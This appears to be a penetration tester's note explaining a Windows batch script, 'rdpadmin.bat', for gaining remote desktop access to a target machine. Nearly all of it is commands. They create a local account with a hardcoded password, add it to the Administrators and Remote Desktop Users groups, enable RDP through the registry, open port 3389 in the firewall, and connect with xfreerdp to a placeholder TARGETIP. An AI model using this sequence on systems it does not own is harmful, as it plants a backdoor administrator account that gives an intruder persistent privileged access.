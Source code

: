 # rdpadmin.bat Explained
============================================================================
### Add a local user account with required password complexity
net user tester Testing123! /ADD

### Add the local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add the local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP in the registry (Sometimes this is enough, but not on new systems)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Enable RDP in the Firewall (may get message about netsh being deprecated but it should still work)
netsh firewall add portopening TCP 3389 "RDP"

============================================================================

## If you get CredSSP error when connecting (rdesktop) use freerdp
### Install:
sudo apt-get install freerdp-x11
### Connect:
xfreerdp /v:TARGETIP:3389 /u:tester
